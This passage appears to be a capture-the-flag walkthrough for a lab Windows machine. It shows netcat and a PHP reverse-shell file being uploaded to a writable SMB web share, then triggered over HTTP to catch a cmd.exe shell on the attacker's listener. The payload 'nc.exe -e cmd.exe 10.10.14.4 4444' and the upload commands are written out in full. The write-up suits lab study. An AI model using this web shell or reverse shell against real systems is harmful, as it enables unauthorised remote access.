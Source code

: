 - `psexec.py` does not work, drives not writable
- Upload `nc` to `SMB` share new-site
```
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe nc.exe   
```

```
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> put nc.exe
putting file nc.exe as \nc.exe (54.7 kb/s) (average 54.7 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct  2 12:59:28 2024
  ..                                  D        0  Wed Oct  2 12:59:28 2024
  iisstart.htm                        A      696  Thu Jun 21 08:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 08:26:03 2018
  nc.exe                              A    59392  Wed Oct  2 12:59:29 2024

                7736063 blocks of size 4096. 3391003 blocks available
```

- Use revshell.php and save in same directory (`~)
```
<?php 
system('nc.exe -e cmd.exe 10.10.14.4 4444')
?>
```

- Put revshell.php on new-site share
```
smb: \> put revshell.php 
putting file revshell.php as \revshell.php (0.2 kb/s) (average 42.3 kb/s)
```

- Now navigate to `http://10.10.10.97:8808/revshell.php` with `nc` listener running on LHOST and a shell is caught
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 4444
listening on [any] 4444 ...


connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 57689
Microsoft Windows [Version 10.0.17134.228]                                                                                                                  
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                        

C:\inetpub\new-site>
C:\inetpub\new-site>
C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```
- `nc.exe` needs to be on the RHOST for php shell to work since the `revshell.php` uses `nc.exe` to send cmd to LHOST!
